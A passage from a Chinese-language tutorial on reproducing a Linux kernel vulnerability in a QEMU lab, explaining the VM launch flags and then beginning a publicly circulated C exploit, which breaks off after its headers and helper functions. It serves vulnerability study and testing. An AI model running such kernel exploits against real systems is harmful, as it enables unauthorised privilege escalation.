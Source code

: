 1. -kernel ./bzImage: 指定了内核文件。  
  
1. -initrd ./rootfs.img: 指定我们制作的 Linux 文件系统。  
  
1. -append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet nokaslr":指定了传递给内核的启动参数。这里的 quiet 可以让内核不输出很多信息直接启动，nokaslr 一定要加，否则断点无法命中。  
  
1. -cpu qemu64: 指定使用 QEMU 的默认 x86_64 CPU 模拟器。  
  
1. -netdev user,id=t0,: 指定了用户模式网络设备。  
  
1. -device e1000,netdev=t0,id=nic0: 指定了要添加到虚拟机的网络设备。  
  
1. -nographic: 无需图形界面的情况下运行 QEMU。  
  
现在在目录下应该有了 start.sh，bzImage 和 rootfs.img，文件系统可以提前打包 exp 进去。  
## 漏洞验证  
### EXP验证  
  
用网上通用的一个 EXP。  
```
#define _GNU_SOURCE

#include <endian.h>
#include <errno.h>
#include <fcntl.h>
#include <sched.h>
#include <stdarg.h>
#include <stdbool.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/mount.h>
#include <sys/prctl.h>
#include <sys/resource.h>
#include <sys/stat.h>
#include <sys/syscall.h>
#include <sys/time.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

#include <assert.h>
#include <pthread.h>
#include <sys/uio.h>

#include <linux/bpf.h>
#include <linux/kcmp.h>

#include <linux/capability.h>

static void die(const char *fmt, ...) {
    va_list params;

    va_start(params, fmt);
    vfprintf(stderr, fmt, params);
    va_end(params);
    exit(1);
}

static void use_temporary_dir(void) {
    system("rm -rf exp_dir; mkdir exp_dir; touch exp_dir/data");
    char *tmpdir = "exp_dir";
    if (!tmpdir)
```